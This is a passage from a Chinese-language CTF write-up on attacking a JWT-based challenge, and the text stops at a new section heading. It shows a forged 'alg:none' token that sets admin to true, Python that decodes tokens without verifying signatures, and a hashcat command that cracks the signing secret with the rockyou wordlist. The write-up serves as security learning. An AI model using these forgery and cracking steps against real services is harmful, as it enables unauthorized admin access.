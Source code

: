 #### 2.3.2 改签名：算法None

接下来要改签名，直接搜没看到什么暴力破解
倒是有算法改none的
![](../images/Pasted%20image%2020241204163724.png)

使用从`base64.b64encode(b'{"alg":"none"}')` 转换的`eyJhbGciOiJub25lIn0`，以及改后的中间部分

```python
def jwtdecoder(secret_key, token):  
    try:  
        # 校验 JWT        
        decoded = jwt.decode(token, secret_key, options={"verify_signature": False})  
        print("JWT is valid. Decoded payload:")  
        print(decoded)  
    except jwt.ExpiredSignatureError:  
        print("JWT has expired.")  
    except jwt.InvalidTokenError:  
        print("JWT is invalid.")

token = ("eyJhbGciOiJub25lIn0.eyJpYXQiOjE3MzQxMjI0NTQsImFkbWluIjoidHJ1ZSIsInVzZXIiOiJKZXJyeSJ9Cg."  
         "5UMXheXVy0dGaDEuWHGAyF0Vw8X6cqDlkaIC8v67QsyJbtJ_eASH0Pdf-lzsv48aU9wrFiiOuWwBjjMWCtw7qw")
jwtdecoder(secret_key, token)
```

这个是可以解出来的，但是，发包过去并不行
![](../images/Pasted%20image%2020241204163935.png)
看来还是要爆破出来密钥？

补充：后面看了题解其实这个应该可以的，应该是我没有加.所以说格式不对
比如这样写：
`eyJhbGciOiJub25lIn0.eyJpYXQiOjE3MzQxMzU3MDYsImFkbWluIjoidHJ1ZSIsInVzZXIiOiJKZXJyeSJ9.`

#### 2.3.3 爆破密码

想到之前用hashcat爆破hash ，于是问gpt命令，gpt说对了一半，但告诉我要用:分隔，于是得到了这样的报错
![](../images/Pasted%20image%2020241204165652.png)

> 应该使用的参考：
> hashcat支持的所有模式 https://hashcat.net/forum/thread-9854.html
> 16500 jwt模式使用 https://hashcat.net/forum/thread-10787.html

```shell
hashcat -m 16500 -a 0 eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE3MzQxMjI0NTQsImFkbWluIjoiZmFsc2UiLCJ1c2VyIjoiSmVycnkifQ:5UMXheXVy0dGaDEuWHGAyF0Vw8X6cqDlkaIC8v67QsyJbtJ_eASH0Pdf-lzsv48aU9wrFiiOuWwBjjMWCtw7qw /usr/share/wordlists/rockyou.txt
```

很快就出来了密钥

![](../images/Pasted%20image%2020241204165716.png)

#### 2.3.4 最新时间戳
